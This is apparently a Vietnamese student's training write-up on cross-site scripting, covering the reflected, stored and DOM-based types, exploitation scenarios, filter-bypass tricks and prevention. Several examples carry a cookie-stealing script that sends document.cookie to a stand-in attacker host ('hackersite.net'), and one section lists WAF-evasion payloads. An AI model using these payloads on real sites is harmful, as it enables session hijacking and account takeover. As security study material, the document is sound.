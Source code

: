 **Task4** <br>
- Tìm hiểu XSS và các loại tấn công XSS (XSS là gì, tại sao lại xảy ra lỗi, các loại tấn công phổ biến, cách khai thác + một số cách bypass mà em biết, cách ngăn chặn)
- Dựng lại lab: 3 loại XSS (Reflected, Stored, DOM) <br>
Yêu cầu: Viết lý thuyết lổ hổng 1 cách chi tiết.

# XSS 
## XSS là gì?
- XSS là một lỗ hổng bảo mật cho phép kẻ tấn công chèn thêm vào một loại mã độc(thường là JavaScript) vào một trang web, và khi người dùng truy cập trang web đó mã độc sẽ thực thi trên trình duyệt ngưởi dùng. Điều này cho phép kẻ tấn công lấy được thông tin cá nhân của người dùng, thực hiện các hành động giả mạo hoặc hành động trên trang web thay người dùng.
- Mục đích chính của các cuộc tấn công này là ăn cắp dữ liệu nhận dạng như: cookies, session, tokens... Tấn công XSS được thực hiện ở phía client, phổ biến là thực hiện với HTML và JavaScript.
## Tại sao lại xảy ra lỗi?
- XSS xảy ra khi web không kiểm soát được dữ liệu đầu vào của người dùng . Cụ thể, khi người dùng nhập nhập vào các đầu vào, dữ liệu này có thể chứa ký tự đặc biệt hoặc các mã độc. Và khi không được xử lý đúng thì nó có thể truyền ngược lại cho trình duyệt của người dùng và các đoạn mã độc được thực hiện trên máy người dùng.
- XSS cũng có thể xảy ra khi lưu trữ các dữ liệu nhập vào như bình luận hoặc nội dung mà không qua xử lý. <br>
Qua đó, kẻ tấn công có thể dùng mã độc đó để tấn công, ăn cắp dữ liệu quan trọng ...
## Các loại tấn công phổ biến:
### 1. Reflected XSS
Đây là loại XSS đơn giản nhất. Nó xảy ra khi nhận dữ liệu trong một HTTP request và bao gồm dữ liệu trong phản hồi lập tức theo cách không an toàn. Ví dụ:
```
https://insecure-website.com/status?message=All+is+well.
<p>Status: All is well.</p>
```
Ứng dụng không thực hiện xử lý dữ liệu, vì vậy kẻ tấn công có thể thực hiện cuộc tấn công:
```
https://insecure-website.com/status?message=<script>/*+Bad+stuff+here...+*/</script>
<p>Status: <script>/* Bad stuff here... */</script></p>
```
Khi người dùng truy cập vào một URL có chứa đoạn mã độc. Khi đó trình duyệt sẽ gửi yêu cầu đến server và server trả về trang web kèm tham số được truyền trên URL. Từ đó, các tham số chứa mã độc đó được thực thi trên trình duyệt người dùng. <br>

**Kịch bản khai thác** <br>
- Khi người dùng đăng nhập vào trang web và được gắn với một cookie.
- Kẻ tấn công sẽ tạo ra 1 web có thể nhận được phản hồi ví dụ: `http://hackersite.net` và bằng 1 cách nào đó gửi cho nạn nhân  1 đường link `www.abcd.com?search=<script>window.location="http://hackersite.net?c="+document.cookie</script>`.
- Khi nạn nhân bị lừa click vào link và khi đó cookie của nạn nhân gắn vào link đó và truy cập vào site của kẻ tấn công.
- Kẻ tấn công khi ấy sẽ xem log của site và lấy được cookie của nạn nhân qua đó có thể truy cập vào tài khoản và thực hiện nhiều hành động khác.

### Mức độ của tấn công
Kẻ tấn công có thể kiểm soát được tập lệnh thực thi của trình duyệt người dùng. Ngoài ra có thể:
- Thực hiện hành động trong ứng dụng mà người dùng thực hiện được:
- Xem bất ký thông tin nào có thể xem.
- Sửa đổi thông tin nào có thể sửa đổi.
- Tương tác với người dùng khác để mở rộng tấn công.
### 2. Stored XSS 
Stored XSS xảy ra khi ứng dụng nhận dữ liệu từ nguồn không đáng tin cậy và bao gồm dữ liệu đó trong HTTP response một cách không an toàn. <br>
Giả sử 1 web cho người dùng gửi comment lên 1 blog và được hiện thị đến người dùng khác. Ví dự khi gửi HTTP request:
```
POST /post/comment HTTP/1.1
Host: vulnerable-website.com
Content-Length: 100

postId=3&comment=This+post+was+extremely+helpful.
```
Sau khi gửi thành công, bất kỳ người dùng nào cũng có thể thấy được comment và phản hồi dưới dạng:
```
<p>This post was extremely helpful.</p>
```
Khi ứng dụng không có xử lý khác, kẻ tấn công sẽ chèn mã độc vào comment đó, khi đó bất kỳ người dùng nào truy cập vào blog đó thì ứng dụng sẽ thực thi mã độc. <br>
**Kịch bản khai thác** <br>
- Giả sử khi đó kẻ tấn công chèn mã độc vào bình luận để tải lên:
```<script>window.location("http://hackersite.net?c="+document.cookie)</script>```
- Khi có người dùng truy cập vào đúng bài viết có bình luận này thì trình duyệt người dùng thực thi mã độc trên và cookie sẽ đến được với kẻ tấn công.
#### Mức độ của tấn công
- Kẻ tấn công có thể thực hiện bất cứ hành động nào mà nạn nhân thực hiện được như cuộc tấn công Reflected XSS.
- Điểm khác biệt giữa Stored XSS với Reflected XSS là cuộc tấn công này xảy ra trong chính ứng dụng web đó. Ngoài ra kẻ tấn công không phải tìm cách cho nạn nhân thực hiện hành động mới có thể khai thác được mà ở đây bất kỳ nạn nhân trong ứng dụng gặp phải mã độc đó. Với Stored XSS, kẻ tấn công dễ dàng đạt được mục đích hơn vì nạn nhân bị tấn công thì chắc chắn khi đó người dùng đã login và trong phiên làm việc(session) của web.
- Đối tưởng bị ảnh hưởng với Stored XSS có thể là tất cả những người sử dụng ứng dụng web đó.
### 3. DOM-based XSS
- DOM-based XSS xảy ra khi JavaScript lấy dữ liệu từ nguồn có thể kiểm soát của kẻ tấn công và dữ liệu đó được đưa đưa vào phần thực thi code. Khi người dùng truy cập vào trang web đó, mã độc sẽ được thực thi trong trình duyệt của họ, cho phép kẻ tấn công thực hiện các hành động độc hại, như đánh cắp thông tin người dùng hoặc thực hiện các giao dịch không được ủy quyền. <br>
- Sự khác biệt chính giữa DOM-based XSS và các hình thức XSS khác là trong DOM-based XSS, mã độc được chèn vào và thực thi trực tiếp trên Document Object Model (DOM) của trang web, thay vì thông qua các tài liệu HTML hoặc các yếu tố khác trên trang web. Do đó lỗ hổng này chỉ có thể ảnh hưởng ở client-side. <br>
Giả sử 1 trang web chi phép người dùng tìm kiếm thông tin tài khoản bằng cách nhập vào input và yêu cầu đến máy chủ. JavaScript hiện thị kết quả tìm kiếm: 
```
document.getElementById("search_results").innerHTML = "Result of " + username 
```
Trong trường hợp này, kẻ tấn công sẽ chèn mã độc vào trường tìm kiếm và nhập tên người dùng sau:
```
<script>
  window.location="http://hackersite.net?c="+document.cookie
</script>
```
Khi trình duyệt thực hiện mã độc này sẽ chuyển hướng đến site của hacker kèm cookie và khi đó kẻ tấn công có được cookie và sử dụng với mục đích xấu.
#### Mức độ của tấn công
Giống với các cuộc tấn công khác của XSS, kẻ tấn công có thể ăn căp thông tin quan trọng người dùng, thực hiện các hành động khác ... 
## Cách khai thác và bypass
- Tìm kiếm và quan sát các đầu vào như ô tìm kiếm, form, URL, parameters, HTTP header, ... nơi mà kẻ tấn công chèn có thể chèn mã độc.
- Sau đó kẻ tấn công sẽ kiểm tra đầu vào bằng một số ký tự, các tag của html, scripts... rồi xem xét phản hồi nhận được. Test các phương thức trong js xem cách trình duyệt xử lý như `alert()`, `prompt()`.
- Từ đó xác định nó thuộc loại lỗ hổng XSS nào rồi khai thác như phần trên theo từng loại.

### Một số kỹ thuật và cách bypass
#### Fuzz/Brute-Force
- Test các tags html, custom tag và event có thể xss.(Sử dụng cheat sheet của <a href="https://portswigger.net/web-security/cross-site-scripting/cheat-sheet">PortSwigger</a>)
- Dùng tool như burp suite và wordlist như <a href="https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/XSS%20Injection">PayloadsAllTheThings</a>, <a href="https://github.com/danielmiessler/SecLists/tree/master/Fuzzing/XSS" >Seclists</a>,...
#### Javascript Pseudo-Protocol, Inside JavaScript code và escape ra ngoài:
- `<a href="javascript:alert(1)">click</a>`
- `'-alert(1)-'`, `';-alert(1)//`, `\';alert(1)//`, ...
- `"><script ...`, `</script><img src=1 onerror=alert(document.domain)>`, ...
#### Bypass WAF, filters, blacklist... :
Kỹ thuật obfuscation: 
- Case Toggling: Kết hợp chữ hoa chữ thường như `<ScRipT>alert()</sCRipT>`.
- URL encoding, HTML encoding.
- Chuẩn hóa các ký tự unicode: `prompt()` => `\u0070r\u06f\u006dpt()`.
- Sử dụng comment: `<!--><script>alert/**/()/**/</script>`
- Double encoding: `%253Cscript%253Ealert()%253C%252Fscript%253E`
- Dùng tabs: `<IMG SRC="    jav    ascri    pt:alert    ();">`.
- Dùng các ký tự null bytes: `<scri%00pt>alert(1);</scri%00pt>`

## Cách ngăn chặn XSS
### Xử lý đầu vào
- Lọc đầu vào: Sử dụng blacklist, whitelist, filters, regex, ...
- Mã hóa đầu ra để không hiển thị các ký tự đặc biệt nhằm tấn công
- Sử dụng các thư viện và frameworks an toàn.
- Sử dụng HTTP-only Cookies để tránh bị đánh cắp, CSP để kiểm soát tài nguyên ngoài.
- Thường xuyên cập nhật phần mềm, các dạng tấn công mới 






